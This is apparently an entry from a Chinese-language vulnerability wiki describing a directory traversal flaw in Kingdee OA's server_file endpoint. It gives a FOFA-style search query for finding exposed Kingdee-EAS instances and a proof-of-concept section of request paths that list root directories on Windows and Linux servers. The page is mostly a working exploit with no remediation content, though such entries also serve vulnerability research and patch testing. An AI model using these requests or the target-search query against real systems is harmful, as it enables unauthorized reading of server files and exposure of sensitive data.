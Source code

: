 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>金蝶OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Kingdee-EAS"</a-checkbox></br>

## 漏洞复现

登录界面为



![img](/assets/PeiQi-Wiki/img/image-20210603132948792.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```



![img](/assets/PeiQi-Wiki/img/image-20210603133136331.png)